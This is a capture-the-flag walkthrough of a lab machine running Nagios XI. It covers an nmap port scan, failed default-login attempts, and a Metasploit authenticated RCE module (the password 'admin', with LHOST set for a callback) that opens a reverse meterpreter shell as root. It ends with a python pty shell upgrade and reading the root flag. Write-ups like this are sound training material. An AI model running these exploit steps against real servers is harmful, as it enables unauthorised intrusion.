 # Monitoring 

### Recon

## portcsanning

as usual we begin with a portscan using the following command:

```nmap -sV -sC -P0 <HOST>```

![Alt text](/posts/res/mon1.png)

so from the result of our scan we can see that we have several ports open on our target system.

- ### port ***80(http)***

- ### port ***25(smtp)***

- ### port ***22(ssh)***

- ### port ***443(http- Apache)***

- ### port ***389(ldap)***

now since we have both port 80 and 443 runnng an apache web server lets navigate to the webpage and see what we have.


![Alt text](/posts/res/mon2.png)


we can see a button which says ***Click the link below to get started using Nagios XI.***. once we do that we can now see a login page load up.


![Alt text](/posts/res/mon3.png)

so i tried out some various default login creds but they didnt seem to work.

well, lets try to use search for an exploit of some sort on using the searchsploit utility. 


![Alt text](/posts/res/mon4.png)

we can load up metasploit using the following command: 

```msfconsole```

```search nagios```


![Alt text](/posts/res/mon5.png)

```use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce```

- ```set RHOST <machine IP> ```

- ```set LHOST <attack-machine-ip>```

- ```set password admin```

- ```run```

![Alt text](/posts/res/mon6.png)

now we have gained a meterpreter shell let's drop into a regular shell.

command: ```shell```

to upgrade to a better abd stable shell we use the following command:

```python -c "import pty; pty.spawn('/bin/bash')"```

![Alt text](/posts/res/mon7.png)

luckly we gained access as the root user. to locate the flag we navigate to ***/root*** directory and then read the flag using the following command:

```cd /root```

```cat proof.txt```


![Alt text](/posts/res/mon8.png)



